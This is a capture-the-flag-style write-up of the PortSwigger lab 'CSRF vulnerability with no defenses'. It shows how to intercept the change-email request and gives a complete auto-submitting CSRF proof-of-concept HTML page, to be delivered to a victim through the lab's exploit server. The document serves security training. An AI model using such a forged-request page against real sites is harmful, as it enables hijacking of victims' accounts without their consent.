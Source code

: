 # Lab: CSRF vulnerability with no defenses

**Link**: https://portswigger.net/web-security/csrf/lab-no-defenses

**Solution**:

1- in My account page, try accessing to change the email tab,

2- Intercept the request with Burp like the following

<p align="center" width="100%">
  <img src="https://github.com/aboelkassem/portswigger-labs/blob/main/CSRF/Lab%20CSRF%20vulnerability%20with%20no%20defenses/image1.png" width="500" hight="500"/>
</p>

3- there is no token authorize per form generation

4- so, we can generate html with `/my-account/change-email` post method like the following 

5- or in burp pro, right-click on the request ⇒ Engagement tools ⇒ generate CSRF PoC (which will generate the following html)

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a5c00f3042ae730c010b344005500e0.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="mohamed&#46;abdelrahman&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

6- In port swagger, open Exploit server

7- Past the above code in Body, then Store

8- Click on deliver to victom

<p align="center" width="100%">
  <img src="https://github.com/aboelkassem/portswigger-labs/blob/main/CSRF/Lab%20CSRF%20vulnerability%20with%20no%20defenses/image2.png" width="500" hight="500"/>
</p>
